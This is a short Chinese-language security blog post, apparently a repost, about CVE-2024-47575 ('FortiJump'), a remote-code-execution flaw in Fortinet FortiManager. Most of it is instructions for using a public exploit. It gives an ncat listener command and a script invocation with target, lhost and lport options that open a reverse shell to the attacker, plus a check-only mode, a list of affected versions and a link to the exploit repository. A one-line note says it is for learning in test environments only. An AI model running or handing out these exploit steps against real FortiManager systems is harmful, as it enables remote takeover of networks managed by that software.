 #  CVE-2024-47575 Fortinet FortiManager RCE exp(FortiJump)   
云梦DC  云梦安全   2024-11-22 01:11  
  
## 漏洞利用方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpypcs8dTJxW4TPMQ2smuDStZcZ1MFKEB5JSnOm0gXicNdx95TayOHoXcs9xjichlYqBeZQPHTKdWGmQ/640?wx_fmt=png&from=appmsg "")  
  
首先，建立您的 ncat 会话：  
```
nc -lvvnp 80
```  
  
然后，执行我们的检测工件生成器：  
```
python3 CVE-2024-47575.py--target192.168.1.110--lhost192.168.1.53--lport80--action exploit
```  
  
要单独检查漏洞，请使用以下选项：  
```
python3 CVE-2024-47575.py--target192.168.1.110--action check
```  
## 受影响的版本  
## FortiManager 7.6.0 FortiManager 7.4.0 through 7.4.4 FortiManager 7.2.0 through 7.2.7 FortiManager 7.0.0 through 7.0.12 FortiManager 6.4.0 through 6.4.14 FortiManager 6.2.0 through 6.2.12 FortiManager Cloud 7.4.1 through 7.4.4 FortiManager Cloud 7.2.1 through 7.2.7 FortiManager Cloud 7.0.1 through 7.0.12 FortiManager Cloud 6.4  
## 漏洞作者  
## 该漏洞由watchTowr (@watchtowrcyber)的Sina Kheirkhah (@SinSinology)编写  
## 项目地址  
  
GitHub：  
  
https://github.com/watchtowrlabs/Fortijump-Exploit-CVE-2024-47575  
  
注：仅供在测试环境中学习使用，本文仅供参考交流  
  
